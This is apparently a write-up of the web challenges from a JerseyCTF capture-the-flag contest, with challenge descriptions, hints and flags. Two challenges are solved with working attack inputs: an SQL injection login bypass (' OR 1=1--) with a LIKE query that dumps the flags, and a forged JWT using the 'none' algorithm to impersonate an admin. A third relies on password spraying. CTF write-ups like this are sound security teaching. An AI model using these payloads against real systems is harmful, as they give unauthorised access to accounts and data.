 # **web**

- [x] [apache-logs (100)](#apache-logs)
- [x] [seigwards-secrets (100)](#seigwards-secrets)
- [x] [heres-my-password(250)](#heres-my-password)
- [x] [flag-vault (300)](#flag-vault)
- [x] [cookie-factory (400)](#cookie-factory)

## **apache-logs**

### ***Description***

- An apache log file that contains recent traffic was pulled from a web server. There is suspicion that an external host was able to access a sensitive file accidentally placed in one of the company website's directories. Someone's getting fired...
- Identify the source IP address that was able to access the file by using the flag format: jctf{IP address}

<details>
    <summary>View Hint</summary>
	Which directory types should sensitive files not be placed in?
</details>


[webtraffic.log](https://www.jerseyctf.site/files/3a0428612620ef7b190032655f097b00/webtraffic.log?token=eyJ1c2VyX2lkIjozODgsInRlYW1faWQiOjUxMSwiZmlsZV9pZCI6OH0.YlYjVw.k0472hBVgZ8pNS9aLHisdMszles)


### ***Writeup***

<kbd>CTRL+F</kbd> for 200 (successful HTTP GETs), the one indicating bank records represents confidential data and is what we are searching for.

Flag: `jctf{76.190.52.148}`

## **seigwards-secrets**

### ***Description***

- Seigward has been storing his secrets on his website [https://jerseyctf.co](https://jerseyctf.co/) for decades. Hasn't failed him yet.

<details>
    <summary>View Hint</summary>
	Where can you find a website's code?
</details>



### ***Writeup***

Notice that the [login.js](https://jerseyctf.co/login.js) file checks if the password when converted from ascii to base64 (`btoa`) is equal to `amN0ZnsxTV9zMF8xTV81b19EeW40TWl0M18wOTI0Nzh9`. Use a base64 decoder.

Flag: `jctf{1M_s0_1M_5o_Dyn4Mit3_092478}`

## **heres-my-password**

### ***Description***

- Here's the deal - we have a list of 500 users (males, females, and pets) and one password. Log-in with the proper credentials for the flag.
- The password is **lightswitchon_and_offLOL26** and the website is [www.jerseyctf.online](http://www.jerseyctf.online/).

<details>
    <summary>View Hint</summary>
	This is not intended to require manual brute force. What are some other types of brute force methods?
</details>


[users.txt](https://www.jerseyctf.site/files/b75ea9a239df8ec1408edc31d05932b3/users.txt?token=eyJ1c2VyX2lkIjozODgsInRlYW1faWQiOjUxMSwiZmlsZV9pZCI6OX0.YlYlAg.llQS13U44BZu_MnEALyBwcMWvUM)


### ***Writeup***

The username changes every minute.

Flag: `jctf{c0NGR@T2_y0U_p@22wORd_SPR@y3D!}`

## **flag-vault**

### ***Description***

- I'm very organized. I even keep all of my flags neatly organized in a database! But, these are my flags! You don't have access to them... or do you?
- Do not brute force this challenge.

<span style="color: #e83e8c;">Start here: jerseyctf-flag-vault.chals.io</span>

<details>
    <summary>View Hint</summary>
	<ul>
        <li>What is the most common type of database?</li>
        <li>What is the flag format? How does that help you?</li>
    </ul>
</details>



### ***Writeup***

Login initially with the username `admin` and password `' OR 1=1--` Then give the SQL query `' OR FLAG LIKE 'jctf{%' --` which will search for all entries that match the jctf beginning characters.

![img](https://lh6.googleusercontent.com/ja4PP1_ChvlZ_ZBTZzZRPJfNMkGjQaUdq0HuB3v4DM79-Rx3N8mNMFIvV7FadYpISUnfuEu7Eg8GZ-6NCsGRtUWW2b_Wb4dQzpPjBaGwQY4LLJXTX8nW9rnw9MSBtKfrXxFQstJI)

Flag: `jctf{ALMOST_LIKE_A_NEEDLE_IN_A_HAYSTACK}`

## **cookie-factory**

### ***Description***

Granny's Cookie Factory

- Here at Granny's Old-Fashioned Home-Baked Cookie Factory, we pride ourselves on our cookies AND security being the best in the business.

<span style="color: #e83e8c;">Start here: https://jerseyctf-cookie-factory.chals.io/</span>


### ***Writeup***

CVE-2018-1000531 vulnerability.

Username as “a” and password as “b” generates this JWT token: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImEifQ.I2_0Uq0TSXDKY8C13D_0yk8mLcZP_0RPy_I2KNwXBO8`, which is in base64

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9` → `{"typ":"JWT","alg":"HS256"}`

`eyJ1c2VybmFtZSI6ImEifQ` → `{"username":"a"}`

`I2_0Uq0TSXDKY8C13D_0yk8mLcZP_0RPy_I2KNwXBO8` → some random bytes

We want to generate a new custom token with a none algorithm.

`{"typ":"JWT","alg":"none"}` → `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0`

`{"username":"admin"}` → `eyJ1c2VybmFtZSI6ImFkbWluIn0`

We can leave the password as blank so our token ends with a `.`

Payload: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.`

![img](https://lh6.googleusercontent.com/ViZ8ru4mHheTDwGxymv74V5D00ieb_qxKYeYDKFZe3Rjpsss75UIC8DPp9AmmZDZW7J_DDAySBEXagayMfNhzVDKpWKfvPUECFfkIakzjXjGPzu0XH7XhIyECOM76AOhgBHZ9BBI)

Flag: `jctf{GEEZ_WHAT_A_TOUGH_COOKIE}`